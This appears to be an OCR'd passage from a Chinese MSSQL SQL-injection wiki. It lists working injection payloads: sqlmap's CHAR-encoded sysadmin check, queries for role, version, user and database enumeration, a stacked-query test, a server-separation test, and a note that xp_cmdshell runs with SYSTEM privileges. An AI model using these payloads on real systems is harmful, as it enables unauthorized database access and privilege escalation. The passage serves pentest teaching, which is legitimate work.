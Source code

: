 

我们在sqlmap中使用 --is-dba 也就是判断的你是否为管理员权限

```
select * from admin where id =1 AND 5560 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(113)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (IS_SRVROLEMEMBER(CHAR(115)+CHAR(121)+CHAR(115)+CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))=1) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(120)+CHAR(113)))
```



#### 数据库级别的角色



```
select IS_MEMBER('db_owner')  
```



[![mysql](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI/raw/master/img/1.2.2.png)](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI/blob/master/img/1.2.2.png)

# 0x04 基本信息



```
@@version // 数据库版本

user  //获取当前数据库用户名

db_name() // 当前数据库名 其中db_name(N)可以来遍历其他数据库

;select user //查询是否支持多语句
```



# 0x05 判断站库分离



```
select * from info where id='1'and host_name()=@@servername;--'
```



最简单的方法，当然你可以调用xp_cmdshell 就可以通过cmd来判断。

通过简单的判断数据库版本，当前用户权限，我们就可以想下一步怎么去做，比如2005的xp_cmdshell 你要知道他的权限一般是system 而2008他是nt authority\network service

# 0x06 基础注入

建议大家可以本地搭建后用sqlmap注入查看他的注入语句
